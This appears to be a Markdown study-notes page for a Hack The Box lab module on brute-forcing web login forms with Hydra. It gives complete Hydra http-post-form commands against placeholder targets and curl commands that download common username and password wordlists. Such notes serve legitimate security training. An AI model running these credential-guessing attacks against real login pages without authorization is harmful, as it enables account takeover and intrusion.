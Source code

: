 # Login Brute Forcing

This documentation serves as a reference for automating brute-force attacks on login forms using Hydra, as covered in Hack The Box's "Login Brute Forcing" module.

## Overview

Brute forcing involves testing multiple credential combinations systematically to identify valid logins. Hydra's `http-post-form` module simplifies this process by automating HTTP POST requests.

## HTTP POST Request Example

```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

## Hydra Command Structure

```bash
hydra [options] target http-post-form "path:params:condition_string"
```

## Parameters

Path: Specifies the endpoint receiving POST requests. For example, `/login` would be the path.  
Params: Defines the fields and their placeholders in the POST request. For example, `username=^USER^&password=^PASS^`.  
Condition String: Defines the criteria for success or failure in the response. For example, `F=Invalid credentials` for failure detection or `S=302` for a redirect.

## Example Hydra Command

```bash
hydra -L usernames.txt -P passwords.txt IP -s PORT http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Practical Steps

1. Identify the endpoint and parameters by inspecting the login form using browser developer tools or a proxy tool like Burp Suite.
2. Construct the params string using placeholders `^USER^` and `^PASS^` to map to the username and password fields in the POST request.
3. Define the condition string to identify success or failure responses.
4. Run Hydra with the appropriate options and wordlists to brute force the login form.

## Wordlists

Download wordlists for usernames and passwords:

```bash
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

## Sample Hydra Execution

```bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt IP -s PORT http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Analyzing Responses

Use the browser’s developer tools or proxy interception to inspect server responses during login attempts. Ensure accurate failure or success conditions are configured for Hydra.

## Summary

- Hydra is a powerful tool for automating brute-force attacks on login forms.
- Properly analyze the target's structure and responses before running Hydra.
- Keep wordlists efficient and relevant to optimize the attack process.

